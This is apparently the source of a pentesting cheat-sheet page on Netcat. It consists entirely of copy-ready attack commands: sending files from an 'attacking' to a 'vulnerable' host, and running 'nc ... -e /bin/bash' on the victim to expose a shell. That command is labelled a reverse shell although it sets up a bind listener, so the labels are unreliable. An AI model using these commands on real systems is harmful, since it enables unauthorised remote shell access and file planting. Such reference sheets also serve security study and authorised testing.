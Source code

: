 ```yaml
---
layout: topics
page-title: Netcat
receive-file: nc -l 1499 > filename.out
send-file: nc $VULN_IP 1499 < filename.in
listen-for-connection: nc -n -v -l -p 5555 -e /bin/bash
connect: nc -lvnp 5555
---
```


{% include copy-code-blocks.html text='Transfer file from attacking to vulnerable (run on vulnerable): ' language='bash' code=page.receive-file %}
{% include copy-code-blocks.html text='Transfer file from attacking to vulnerable (run on attacking): ' language='bash' code=page.send-file %}
{% include copy-code-blocks.html text='Reverse shell (run on vulnerable): ' language='bash' code=page.listen-for-connection %}
{% include copy-code-blocks.html text='Reverse shell (run on attacking): ' language='bash' code=page.connect %}
